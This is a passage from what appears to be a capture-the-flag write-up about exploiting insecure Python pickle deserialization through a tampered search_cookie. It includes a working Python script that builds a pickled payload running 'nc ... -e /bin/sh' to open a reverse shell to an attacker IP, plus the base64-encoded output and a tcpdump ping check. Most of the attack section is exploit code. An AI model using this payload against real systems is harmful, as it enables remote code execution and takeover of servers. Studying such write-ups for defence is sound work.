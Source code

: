 Now we intercept the traffic with burp and replace the search\_cookie with this value. Setup tcpdump: `sudo tcpdump -i tun0 icmp` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we get a ping back..

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 10.18.88.214 9001 -e /bin/sh")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

# output
gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAxMC4xOC44OC4yMTQgOTAwMSAtZSAvYmluL3NolIWUUpQu
```
